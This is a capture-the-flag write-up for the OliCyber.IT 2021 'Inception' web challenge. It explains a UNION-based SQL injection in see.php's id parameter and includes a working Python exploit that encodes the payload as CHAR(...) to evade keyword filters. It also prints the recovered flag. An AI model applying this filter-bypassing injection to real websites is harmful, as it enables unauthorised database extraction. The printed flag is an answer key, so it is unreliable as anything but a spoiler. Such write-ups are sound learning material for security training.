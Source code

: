 #   OliCyber.IT 2021 - DEMO Competizione nazionale

# Inception – Writeup

## Challenge Description
Sembra che dei fan del film Inception abbiano creato un sito, un uccellino mi ha detto che c'è una tabella con la flag, riesci a procurarmela?

Sito: http://inception.challs.olicyber.it

---
## Vulnerability
The web application exposes a parameter vulnerable to SQL injection. By crafting a `UNION SELECT` query, we can extract the flag directly from the database.

---
## Exploit
```python
import requests
import re

URL = 'http://inception.challs.olicyber.it/'

def encode(query):
    vuln = 'CHAR('
    for i in query:
        vuln += str(ord(i)) + ", "
    vuln = vuln[:-2] + ")"
    return vuln

payload = requests.get(f"{URL}see.php?id=0 UNION SELECT {encode('0 UNION SELECT flag FROM flag -- ')},null,null -- -").text
flag = re.findall(r'flag\{.*?}', payload)
if flag:
    print(flag[0])
````
---
## Code Analysis

1. **Target Endpoint**
   The injection point is the parameter `id` in `see.php`.

2. **Encoding Function**

   * The function `encode(query)` converts the payload into ASCII values.
   * Example: `"A"` → `CHAR(65)`.
   * Wrapping the query inside `CHAR(...)` helps bypass filters that block raw SQL keywords.

3. **Payload Construction**

   * The injected query is:

     ```
     0 UNION SELECT flag FROM flag -- 
     ```
   * This is encoded as a `CHAR(...)` expression and injected into the first column.
   * The remaining columns are filled with `null` to match the table structure.

4. **Response Handling**

   * The request is sent to the server.
   * A regex searches for the `flag{...}` pattern in the response body.
   * If found, the flag is printed.
---
## Exploitation Steps

1. Identify the injectable parameter (`id`).
2. Build a `UNION SELECT` payload to query the `flag` table.
3. Encode the payload as ASCII `CHAR(...)` to avoid keyword filters.
4. Inject the payload and send the request.
5. Extract the flag from the response.
---
## Solution

Running the exploit retrieves the flag:

```
flag{0h_b0y_1t_w4s_h4rd_r1ght?}
```
---
## Key Takeaway

This challenge demonstrates a **UNION-based SQL Injection**. By leveraging the ability to encode payloads as ASCII characters (`CHAR()`), we can bypass naive filters and directly exfiltrate sensitive data such as flags.
